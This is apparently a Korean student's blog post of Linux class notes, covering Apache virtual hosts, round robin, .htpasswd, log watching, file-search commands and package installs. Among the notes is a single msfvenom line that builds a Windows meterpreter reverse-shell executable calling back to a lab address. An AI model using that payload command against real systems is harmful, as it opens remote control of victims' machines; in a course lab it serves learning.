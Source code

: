 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories : Linux
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다.  
(IP-based, Name-based, Port-based 기법 사용)  
  
  
  
---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>  
 ServerAdmin admin@localhost  
 DocumentRoot /var/www/xyz  
 DirectoryIndex index.html  
<Directory /var/www/xyz>  
 Order allow,deny  
 Allow from all  
</Directory>  
</VirtualHost>  
  
  
  
---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage  
                   128 ->        "  
                   127 ->        "  
  
---
  
  
	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 
  
  
---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos  
> htpasswd /etc/httpd/conf/.htpasswd ubuntu  
  
  
startx -> 그래픽으로 보여주는 명령어  
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe
  
  
  
---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog  
  
백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode  
SNMP 네트워크 모니터링  
  
*영원히 접근 못하게 막는 기법*  
jail2ban  
fail2ban  
  
  
  
---
### 빈파일 만드는 명령어 
---
touch  
echo >  
ex) touch xyz  
ex) echo > xyzz  
  
  
  
---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)  
* locate passwd  
* which passwd (명령어를 찾을때는 which가 좋다)  
* whereis passwd (관리자들이 많이 쓴다)  
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)
  
  
  
---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.  
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)  
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)  
* dpkg -r abc로 삭제한다.  
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다.  
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.  
  
  
  